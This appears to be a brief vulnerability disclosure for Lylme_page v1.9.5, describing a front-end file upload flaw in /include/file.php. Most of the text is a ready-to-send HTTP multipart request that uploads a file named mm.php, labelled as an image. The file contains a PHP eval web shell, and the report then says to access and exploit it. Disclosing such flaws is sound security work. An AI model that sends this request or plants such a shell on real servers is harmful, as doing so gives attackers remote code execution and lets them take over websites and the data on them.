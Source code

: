Lylme_pagev1.9.5 has a file upload vulnerability in the front-end of the website.

In the/apply/index.php directory, grab packages uploaded from website icons, and construct it accordingly

![image-20240506161607812](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161607812.png)

```
POST /include/file.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
X-Requested-With: XMLHttpRequest
Origin: http://127.0.0.1
Accept: application/json, text/javascript, */*; q=0.01
Cookie: X8Kk_2132_logintime=1713010988; X8Kk_2132_saltkey=sb50OXyE; X8Kk_2132_lastvisit=1713007324; XDEBUG_SESSION=PHPSTORM; admin_hkcms_lang=zh-cn; index_hkcms_lang=zh-cn; HKCMSSESSID=e0594fc037c66b2dcc477b032c98de35; PHPSESSID=jbl3he9k1riq937d993fc7luhi; admin_token=32cffj4RQkD5uVfTy3J25h8COeBWUDMFyPZMgE%2BSw2eAI1O%2FgJsuTSHq0vIvSxsREnWeNg59eXDvZU%2F6gdzPT3acrQ
Content-Type: multipart/form-data; boundary=---------------------------207262699182048909098055515
Sec-Fetch-Mode: cors
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Site: same-origin
Referer: http://127.0.0.1/apply/
Content-Length: 237

-----------------------------207262699182048909098055515
Content-Disposition: form-data; name="file"; filename="mm.php"
Content-Type: image/png

<?php eval($_POST[1]);?>
-----------------------------207262699182048909098055515--

```

![image-20240506161508365](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161508365.png)

Access and exploit this vulnerabilityW

![image-20240506161502190](https://cdn.jsdelivr.net/gh/n2ryx/Picture-bed@master/typora/image-20240506161502190.png)
